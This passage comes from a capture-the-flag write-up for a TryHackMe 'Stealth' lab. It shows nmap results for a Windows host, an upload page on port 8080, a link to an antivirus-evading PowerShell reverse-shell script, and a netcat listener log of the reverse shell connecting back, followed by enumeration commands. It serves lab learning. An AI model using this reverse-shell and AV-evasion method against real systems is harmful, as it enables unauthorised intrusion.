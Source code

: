 ```bash
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  unknown
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-12-01T16:08:08
|_  start_date: N/A
|_clock-skew: mean: 1s, deviation: 0s, median: 1s

Service detection performed.
```
{: .nolineno}
{: .nolineno}
{: file='Nmap_Result.txt'}

## Web Enumeration ⤵️

I checked port 8080 first and got this upload file page →

![Untitled](Stealth/Untitled%201.png)

Now I searched online for the payload that can bypass the Antivirus and I found one →

**[powershell-reverse-shell.ps1](https://github.com/martinsohn/PowerShell-reverse-shell/blob/main/powershell-reverse-shell.ps1)**

Now I got the reverse shell through this payload →

```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/Stealth]
└─$ nc -lvnp 8443
listening on [any] 8443 ...

connect to [10.8.83.156] from (UNKNOWN) [10.10.251.200] 49767
SHELL> 
SHELL> whoami
hostevasion\evader
SHELL> hostname
whoaHostEvasion
SHELL> whoami /all

USER INFORMATION
----------------

User Name          SID                                         
================== ============================================
hostevasion\evader S-1-5-21-1966530601-3185510712-10604624-1022

GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes                                        
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
```
